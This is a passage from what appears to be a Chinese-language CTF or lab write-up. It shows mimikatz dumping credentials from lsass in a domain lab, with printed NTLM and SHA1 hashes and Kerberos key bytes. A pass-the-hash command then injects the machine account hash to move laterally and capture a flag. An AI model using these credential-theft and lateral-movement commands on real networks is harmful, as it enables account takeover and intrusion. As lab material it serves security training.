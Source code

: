 
接着利用`mimikatz`抓一下`Hash`。

```bash
meterpreter > kiwi_cmd sekurlsa::logonpasswords

......
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2023/12/1 21:05:27
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WIN2016$
         * Domain   : XIAORANG
         * NTLM     : 23d4fee9803cc89813fd6bbf00e2c939
         * SHA1     : 6e5d40d21b3eb8be4e263524d3f0494f07f82cdd
        tspkg :
        wdigest :
         * Username : WIN2016$
         * Domain   : XIAORANG
         * Password : (null)
        kerberos :
         * Username : win2016$
         * Domain   : XIAORANG.LAB
         * Password : 59 a6 05 a5 d5 f3 6d 98 16 7b 8b a4 df dd e2 40 b5 d4 9c 19 43 e8 e7 f6 d2 56 ea 24 2f e6 73 fe 2f 9e 43 80 e8 d6 78 ad 61 c4 56 a4 d3 62 86 a8 93 9e 75 4a 1f f8 36 b7 45 89 18 e6 31 e1 82 07 7f e6 71 fe df 34 b4 f4 fd 95 44 b6 bd bb b8 51 a7 24 3d f0 16 ce 57 ae c7 23 a4 71 a0 36 8b d2 01 26 e9 e8 00 89 23 b3 7e d3 10 7d 0d 45 d2 6a a9 2d 6c 01 c8 94 77 83 cd 89 dd 32 72 19 c7 92 e2 06 23 6c fd 3f 52 a2 e2 0a 43 e1 c2 2b fb 3d 56 f8 e5 b6 da e6 89 e2 72 3a ce 59 b3 49 93 d0 51 01 63 07 66 40 71 2c 5d 25 79 c8 98 3b 49 77 cc 7a c8 98 60 51 03 0d dc a7 05 53 84 8b 0b 7f cb cf 8f fb 39 e6 dc e5 09 2a 83 27 d3 f6 9b b4 cc 92 69 68 cd c3 e9 11 c4 8e 9b 96 fe 5d 1b 6c 73 6d b8 48 3a 52 fe 32 f5 25 89 25 50 bb 36 f9 
        ssp :
        credman :
......
```

获取到域内机器账户的`NTML`，接着利用`mimikatz`注入机器账户的`Hash`到`lsass`进程中，接着横向到`172.22.8.15`，在`C:\Users\Administrator\flag`目录下读到`flag03.txt`：`flag{d9891234-e256-4b49-8b71-8f007d381be1}`。

```bash
privilege::debug
sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:23d4fee9803cc89813fd6bbf00e2c939
```
